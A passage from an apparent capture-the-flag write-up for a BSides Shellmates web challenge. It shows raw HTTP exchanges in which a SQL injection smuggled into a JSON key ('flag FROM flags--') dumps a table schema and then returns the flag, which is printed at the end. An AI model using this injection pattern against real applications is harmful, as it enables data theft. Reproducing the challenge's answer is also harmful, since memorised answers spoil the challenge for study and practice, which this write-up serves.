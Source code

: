 ```
HTTP/1.1 200 OK
server: nginx/1.22.0 (Ubuntu)
date: Sat, 06 May 2023 03:47:19 GMT
content-type: application/json
content-length: 119
connection: close

{"result":"CREATE TABLE flags\n                 (id INTEGER PRIMARY KEY AUTOINCREMENT,\n                  flag TEXT)"}
```

5. Get the flag :

```
POST /jokes HTTP/1.1
Host: jokes-hub-1.bsides.shellmates.club
Content-Length: 25
Sec-Ch-Ua: "Not;A=Brand";v="99", "Chromium";v="106"
Sec-Ch-Ua-Platform: "Linux"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://jokes-hub-1.bsides.shellmates.club
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://jokes-hub-1.bsides.shellmates.club/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"flag FROM flags--":100}
```

```
HTTP/1.1 200 OK
server: nginx/1.22.0 (Ubuntu)
date: Sat, 06 May 2023 03:48:19 GMT
content-type: application/json
content-length: 49
connection: close

{"result":"shellmates{ar3_sqli_still_4_THing?}"}
```

## Flag

shellmates{ar3_sqli_still_4_THing?}

## More Information
